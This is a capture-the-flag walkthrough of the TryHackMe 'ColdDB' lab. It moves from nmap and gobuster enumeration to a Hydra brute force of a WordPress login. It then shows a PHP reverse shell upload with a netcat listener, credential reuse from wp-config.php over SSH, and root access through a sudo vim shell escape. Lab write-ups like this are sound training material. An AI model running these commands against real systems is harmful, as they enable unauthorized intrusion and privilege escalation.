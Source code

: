 # TryHackMe - ColdDB (Easy)

Detailed walkthrough of the "ColdDB" machine on TryHackMe.  
Objective: Gain root access by moving from web enumeration to privilege escalation via Vim.

---

## Overview

This machine simulates a typical web-to-root scenario. The goal is to exploit a vulnerable WordPress site to gain a foothold, extract credentials, access the system via SSH, and escalate privileges using a misconfigured `vim` binary.

---

 1. Port Scanning

Initial full TCP port scan:


nmap -p- -T5 10.10.158.121

Open ports found:

    80 

    4512 
---

Service/version detection:

nmap -p 80,4512 -sV -A 10.10.158.121 -o nmap.txt

p80 : (HTTP)

p4512: (SSH on a non-standard port)

---

2. Web Enumeration

Nothing obvious on the homepage. Using Gobuster:

gobuster dir -u http://10.10.158.121 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

Discovered /Hidden, which contains a message:

    C0ldd, you changed Hugo's password, when you can send it to him so he can continue uploading his articles. – Philip

This reveals a potential valid username: C0ldd.

---

3. WordPress Login Brute Force

I first tested common credentials like admin:admin and admin:password — no success.

Trying the username C0ldd manually returned a WordPress error indicating that the password is incorrect, meaning the username is valid.

Brute-force attack with Hydra:

hydra -l C0ldd -P /usr/share/wordlists/rockyou.txt 10.10.158.121 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Incorrect" -V

Login successful. Access to the WordPress admin panel is now available at /wp-admin.

---

4. Uploading a Reverse Shell

From the WordPress admin panel, I uploaded a Pentestmonkey PHP reverse shell, disguised as a plugin.

However, it didn't appear in the usual plugins folder. After some digging, I found it uploaded here:

/wp-content/uploads/2025/05/shell.php

I started a Netcat listener:

nc -lvnp 4444

Triggering the URL launched the reverse shell successfully.

---

5. SSH Access & User Flag

From the initial shell, I tried reading /home/c0ldd/user.txt but lacked permission.

I searched the WordPress config file:

cat /var/www/html/wp-config.php

It contained database credentials — which also worked via SSH:

ssh -p 4512 c0ldd@10.10.158.121

After connecting, I was able to read the user flag:

cat /home/c0ldd/user.txt

It was Base64-encoded:

echo "RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==" | base64 --decode

→ Felicidades, primer nivel conseguido!

---

6.  Privilege Escalation

Checked sudo permissions:

sudo -l

Found that vim could be executed as root. Based on GTFOBins:

sudo vim -c ':!/bin/sh'

Confirmed root access with:

whoami
# root

---

7. Root Flag

Read the root flag:

cat /root/root.txt

It was also Base64-encoded:

echo "wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=" | base64 --decode

→ ¡Felicidades, máquina completada!

 ---
 
  Skills Demonstrated

   - Full-range port scanning with Nmap

   - Web directory fuzzing (Gobuster)

   - WordPress user enumeration & brute-force

   - Reverse shell upload via admin panel

   - Credential harvesting from wp-config.php

   - SSH login on custom port

   - Privilege escalation via sudo + GTFOBins

   - Base64 decoding of flags

